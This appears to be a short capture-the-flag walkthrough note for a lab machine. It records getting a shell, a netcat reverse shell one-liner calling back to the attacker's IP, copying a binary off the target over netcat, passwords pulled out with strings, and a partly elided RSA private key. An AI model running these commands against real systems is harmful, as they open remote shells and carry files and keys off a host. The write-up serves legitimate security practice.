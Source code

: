and we get a shell


- here we are not able to run much commands and normal `ls` and `cd` were not working so had to use

```bash
ls home
catlover
ls home/catlover
runme
cat home/catlover/runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
```

- strated a reverse shell using

```bash

  │   ~/De/TH/shellgen │    master ▓▒░ ./shellgen tun0 9992 nc

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.24.189 9992 >/tmp/f
```


and we get a bash shell but still wilth limited commands  


- when we run the executable and enter the password we are still denied 
```
# home/catlover/runme        
Please enter yout password: sardinethecat
Access Denied

```

- now as per writeup we can download the file on our system using netcat

- on local machine machine `nc -vlp 9999 > runme`


- on target machine `nc -N 10.17.24.189 9999 < /home/catlover/runme`

also added this to notes [[transfer files via netcat from target to local]]

- on viewing the contents of `runme` 

```bash
  │   ~/De/TH/ca/loot ▓▒░ strings runme 


rebecca
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
```

- after running the `runme` binary with `rebecca` as password a file with name `id_rsa` is generated

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAmI1dCzfMF4y+TG3QcyaN3B7pLVMzPqQ1fSQ2J9jKzYxWArW5
.
.
.
tDjVbkh5BX0cYtxDnfAF3ErDU15jP8+27pEO5xQNYExxf1y7kxB6Mh9JYJlq0aDt
O4fvFElowV6MXVEMY/04fdnSWavh0D+IkyGRcY5myFHyhWvmFcQ=
-----END RSA PRIVATE KEY-----
```
